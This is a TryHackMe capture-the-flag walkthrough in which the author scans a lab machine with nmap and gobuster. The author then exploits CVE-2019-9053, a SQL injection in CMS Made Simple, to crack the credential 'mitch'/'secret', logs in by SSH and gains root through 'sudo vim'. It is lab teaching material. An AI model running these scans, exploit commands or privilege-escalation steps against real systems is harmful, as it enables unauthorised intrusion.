 # TryHackMe CTF Walkthrough

## 1. Services Running Under Port 1000
**Question:** How many services are running under port 1000?  
**Answer:** 2  
**Command:** 
```bash
nmap -sV [Target_Machine_Ip] -T5
```

**Nmap Scan Results:**
```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-03 13:06 EEST 
Nmap scan report for 10.10.66.220
Host is up (0.086s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 29.27 seconds
```

## 2. Higher Port Service
**Question:** What is running on the higher port?  
**Answer:** SSH  

## 3. Directory Enumeration
**Command:**
```bash
gobuster dir -u http://[Target_Machine_Ip] -w /usr/share/wordlists/dirb/big.txt
```
**Gobuster Scan Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.66.220
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.66.220/simple/]                                                         

Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
```
**Method:** After visiting http://[Target_Machine_Ip]/simple, we can discern that CMS Made Simple 2.2.8 is being used at the bottom of the page.


## 4. CVE Used
**Question:** What's the CVE you're using against the application?  
**Answer:** CVE-2019-9053  
**Reference:** [Exploit Database CVE-2019-9053](https://www.exploit-db.com/exploits/46635)






## 5. Application Vulnerability
**Question:** To what kind of vulnerability is the application vulnerable?  
**Answer:** SQLi  


## 6. Exploiting the Vulnerability
**Question:** What can you leverage to exploit the vulnerability?  
**Answer:**   
**Command:**
```bash
python 46635.py -u http://[Target_Machine_Ip]/simple --crack -w /usr/share/wordlists/rockyou.txt
```

## 7. Exploit Output
**Question:** What information do you receive after exploiting the vulnerability?  
**Output:**
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## 8. Login Information
**Question:** Where can you log in with the details obtained?  
**Answer:** SSH  

**Question:** What password do you enter when prompted?  
**Answer:** secret  

## 9. User Flag
**Question:** What’s the user flag?  
**Answer:** G___ ___, ____ _p!  
**Method:** After logging in, the user can easily find the `user.txt` file in the home directory.

## 10. Other User in Home Directory
**Question:** Is there any other user in the home directory? What’s its name?  
**Answer:** sunbath  
**Method:** Navigate to the previous directory using `cd ..` and list the contents with `ls` to find another user.

## 11. Spawning a Privileged Shell
**Question:** What can you leverage to spawn a privileged shell?  
**Answer:** vim  
**Method:** After running the command:
```bash
sudo -l
```

## 12. Command to Spawn Privileged Shell
**Question:** What command do you use to spawn a privileged shell?  
**Method:** After running the :
**Command:**
```bash
sudo vim -c ':!/bin/sh'
```

## 13. Finding the Root Flag
**Question:** How do you find the root flag?  
**Method:** Navigate to the root folder to find the `root.txt` file.  


**Flag:** W___ ____. ___ ____ _t!
